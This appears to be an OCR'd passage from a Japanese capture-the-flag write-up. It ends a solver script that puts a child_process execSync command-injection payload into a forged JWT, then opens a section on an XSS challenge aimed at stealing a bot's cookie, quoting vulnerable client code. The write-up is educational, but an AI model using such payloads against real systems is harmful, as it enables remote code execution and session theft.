 ```python:solver.py
    "username": '''#{global.process.mainModule.constructor._load("child_process").execSync('%s')}''' % cmd
}

token = jwt.encode(payload, pem, algorithm="HS256")
s.cookies['token'] = token

r = s.get(URL + "cats")
print(r.text)
```


## ✅ [Web]SafeNotes 2.0(218pts 43/1061 クリア率4.1%)

ノートを保存できるサイト。ソースコードあり。`/report`で報告するとbotがクロールしてくるが、そのbotのcookieにフラグがある。

![](/assets/blog/1337up/c117248a568d-20241117.png)

`/api/notes/store`にPOSTするとノートが保存され、`/api/notes/fetch/<ID>`で確認できるようになっている。`/view?note=<ID>`はそのノートを見るためのページで、このページでXSSをすることが最終目標となる。

`/view`の内容は次の通り:

```javascript:view.html
    function fetchNoteById(noteId) {
        // Checking "includes" wasn't sufficient, we need to strip ../ *after* we URL decode
        const decodedNoteId = decodeURIComponent(noteId);
        const sanitizedNoteId = decodedNoteId.replace(/\.\.[\/\\]/g, '');
        fetch("/api/notes/fetch/" + sanitizedNoteId, {
            method: "GET",
            headers: {
                "X-CSRFToken": csrf_token,
            },
        })
            .then((response) => response.json())
            .then((data) => {
                if (data.content) {
                    document.getElementById("note-content").innerHTML =
                        DOMPurify.sanitize(data.content);
                    document.getElementById("note-content-section").style.display = "block";
                    showFlashMessage("Note loaded successfully!", "success");
                    // We've seen suspicious activity on this endpoint, let's log some data for review
                    logNoteAccess(sanitizedNoteId, data.content);
                } else if (data.error) {
                    showFlashMessage("Error: " + data.error, "danger");
                } else {
                    showFlashMessage("Note doesn't exist.", "info");
                }
                // Removed the data.debug section, it was vulnerable to XSS!
            });
    }

    function logNoteAccess(noteId, content) {
        // Read the current username, maybe we need to ban them?
        const currentUsername = document.getElementById("username").innerText;
        const username = currentUsername || urlParams.get("name");

        // Just in case, it seems like people can do anything with the client-side!!
        const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');

        fetch("/api/notes/log/" + sanitizedUsername, {
            method: "POST",
            headers: {
                "Content-Type": "application/json",
```